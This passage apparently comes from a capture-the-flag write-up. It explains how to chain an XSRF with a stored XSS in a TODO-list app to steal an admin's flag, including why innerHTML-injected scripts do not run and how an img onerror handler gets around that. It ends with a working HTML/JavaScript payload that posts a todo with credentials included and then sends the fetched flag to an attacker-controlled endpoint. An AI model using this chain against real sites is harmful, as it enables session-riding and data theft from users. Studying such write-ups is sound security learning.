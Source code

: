 Due to the [Same-Origin
Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy),
the XSS on the support site can't directly read the resources from the main TODO
list page, so we need to do a bit more here.

We can chain these together to (hopefully) retrieve the flag as the admin by
sending a message to the admin that contains a User-Agent with an XSS payload
that does the following steps:

1. Uses the XSRF to inject a payload (steps 3+) as a new XSS.
2. Redirects the admin to their TODO list to trigger the XSS payload.
3. Uses the Fetch API (or XHR) to retrieve the flag from `/flag`.
4. Uses the Fetch API (or XHR) to send the flag off to an endpoint we control.

One additional complication is that `<script>` tags will not be executed if
injected via the `innerHTML` mechanism in the TODO list.  The reasons are
complicated, but essentially:

- `innerHTML` is parsed using the algorithm descripted in [Parsing HTML
  Fragments](https://html.spec.whatwg.org/multipage/parsing.html#html-fragment-parsing-algorithm)
  of the HTML spec.
- This creates an HTML parser associated with a **new** Document node.
- The script node is parsed by this parser, and then inserted into the DOM of
  the parent Document.
- Consequently, the parser document and the element document are different,
  [preventing
  execution](https://www.w3.org/TR/2011/WD-html5-20110405/scripting-1.html#execute-the-script-block).

We can work around this by using an event handler that will fire asynchronously.
My favorite variant of this is doing something like `<img src='x'
onerror='alert(1)'>`.

I began by preparing the payload I wanted to fire on `todolist-support` as an
HTML standalone document.  I included a couple of variables for the hostnames
involved.

{% raw %}
```html
<div id='s2'>
const dest='{{dest}}';
fetch('/flag').then(r => r.text()).then(b => fetch(dest, {method: 'POST', body: b}));
</div>
<script>
const ep='{{ep}}';
const s2=document.getElementById('s2').innerHTML;
const fd=new FormData();
fd.set('todo', '<img src="x" onerror="'+s2+'">');
fetch(ep+'/api/todos',
    {method: 'POST', body: fd, mode: 'no-cors', credentials: 'include'}).then(
        _ => {document.location.href = ep + '/todos'});
</script>
```
{% endraw %}
